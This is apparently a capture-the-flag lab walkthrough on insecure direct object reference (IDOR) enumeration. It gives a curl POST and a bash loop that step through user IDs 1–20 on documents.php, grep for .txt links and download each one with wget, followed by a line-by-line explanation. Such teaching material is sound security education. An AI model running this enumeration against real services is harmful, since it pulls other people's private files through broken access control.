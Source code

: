 # Mass IDOR Enumeration

### Repeat what you learned in this section to get a list of documents of the first 20 user uid's in /documents.php, one of which should have a '.txt' file with the flag.

If you followed along the section, you are probably try to get the `uid` parameter from the URL.

<figure><img src="../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

The `uid` parameter is actually been sent in the POST Request. You can confirm this in the inspect element or intercept the Request with Burp Suite.

Since we have the POST data lets try to use curl with the following command to get the html code.

{% code overflow="wrap" %}
```bash
curl -s  'http://SERVER_IP:SERVER_PORT/documents.php' --data-raw 'uid=1'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

We get the filenames in the HTML. Now we need to found a way to automate this process and get only .txt matches:

{% code overflow="wrap" %}
```bash
#!/bin/bash

url="http://SERVER_IP:SERVER_PORT"

for i in {1..20}; do
        for link in $(curl -s "$url/documents.php" --data-raw "uid=$i" | grep -oP "\/documents\/[^'\" ]*?\.txt"); do
        	wget -q $url/$link
        done
done

```
{% endcode %}

Here is a breakdown for the script:

* **Define URL**:
  * Set the variable `url` to `http://SERVER_IP:SERVER_PORT`.
* **Outer Loop**:
  * Iterate `i` from 1 to 20.
* **Inner Loop**:
  * Use `curl` to send a POST request to `documents.php` with `uid=$i`:
    * `-s` option makes `curl` silent (no progress or error messages).
  * Pipe the response to `grep` to find links to `.txt` files:
    * **Regex Used**: `\/documents\/[^'\" ]*?\.txt`
      * `\/documents\/`: Matches the string `/documents/`.
      * `[^'\" ]*?`: Matches any characters that are not a single quote, double quote, or space (non-greedy).
      * `\.txt`: Matches the string `.txt` at the end.
* **Download Files**:
  * For each extracted link, use `wget` to download the file from the constructed URL (`$url/$link`):
    * `-q` option makes `wget` quiet (no output).
* **End of Loops**:
  * Close both the inner and outer loops.



<figure><img src="../../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

And we got a match! When we open this .txt file we can see indeed that it is our flag!
